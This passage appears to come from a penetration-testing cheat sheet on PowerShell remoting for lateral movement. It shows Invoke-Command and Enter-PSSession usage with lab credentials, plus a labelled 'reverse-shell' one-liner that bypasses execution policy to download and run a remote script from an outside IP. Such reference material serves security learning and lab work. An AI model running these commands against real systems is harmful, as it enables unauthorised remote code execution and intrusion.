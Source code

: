 You can also **execute a command of your current PS console via** _**Invoke-Command**_. Suppose that you have locally a function called _**enumeration**_ and you want to **execute it in a remote computer**, you can do:

```ruby
Invoke-Command -ComputerName <computername> -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```

### Execute a Script

```ruby
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```

### Get reverse-shell

```ruby
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```

### Get a PS session

Or, if you want to drop right into an interactive PowerShell session, use the `Enter-PSSession` function:

```powershell
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var 
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```

![](<../.gitbook/assets/image (164).png>)
